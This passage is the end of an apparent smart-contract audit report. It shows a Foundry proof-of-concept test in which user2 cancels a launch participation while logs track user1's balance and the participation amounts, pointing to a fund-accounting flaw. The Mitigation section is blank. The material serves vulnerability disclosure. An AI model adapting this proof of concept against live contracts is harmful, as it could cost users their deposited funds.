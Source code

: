 ```solidity

        // User2 cancels their own participation.
        vm.startPrank(user2);
        CancelParticipationRequest memory cancelRequest = CancelParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            launchParticipationId: testLaunchParticipationId,
            userId: testUserId,
            userAddress: user2,
            requestExpiresAt: block.timestamp + 1 hours
        });
        bytes memory cancelSignature = _signRequest(abi.encode(cancelRequest));

        launch.cancelParticipation(cancelRequest, cancelSignature);

        ParticipationInfo memory _info = launch.getParticipationInfo(cancelRequest.launchParticipationId);
        console.log("User1's balance after user2 cancels their participation : ", currency.balanceOf(user1));
        console.log("info.tokenAmount after ex : ", _info.tokenAmount);
        console.log("info.currencyAmount after ex: ", _info.currencyAmount);
        vm.stopPrank();
    }
}
```

![Image](https://sherlock-files.ams3.digitaloceanspaces.com/gh-images/1c5433f4-8a43-4d12-be49-651620aa530e)

### Mitigation

_No response_